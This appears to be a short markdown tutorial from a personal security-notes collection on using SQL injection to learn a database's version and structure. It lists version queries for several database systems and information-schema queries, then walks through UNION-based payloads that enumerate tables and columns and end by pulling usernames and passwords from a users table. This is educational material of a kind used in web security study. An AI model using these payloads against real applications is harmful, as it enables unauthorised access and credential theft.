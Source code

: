 # Examin Database with SQL injection attacks

With SQL injection you can guess information about the database:

- The type and version of the database software.
- The tables and columns that the database contains.

### Table of content

- [Version](#version)
- [Content of the database]()

## Version

Database Type Query
--- | ---
Microsoft, MySQL | `SELECT @@version`
Oracle | `SELECT * FROM v$version`
PostgreSQL | `SELECT version()`

For example, you could use a UNION attack with the following input:

`' UNION SELECT @@version--`

## Content of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

```sql
SELECT * FROM information_schema.tables
```

This returns output like the following:

```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

```sql
This returns output like the following:

TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Exemple:

```sql
' UNION SELECT 'a', 'a' -- return -> 200 OK
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

Found users_abcdef table interting:

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--
```

Found column username_abcdef, password_abcdef

```sql
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

---

[**:arrow_right_hook: Back home**](/README.md)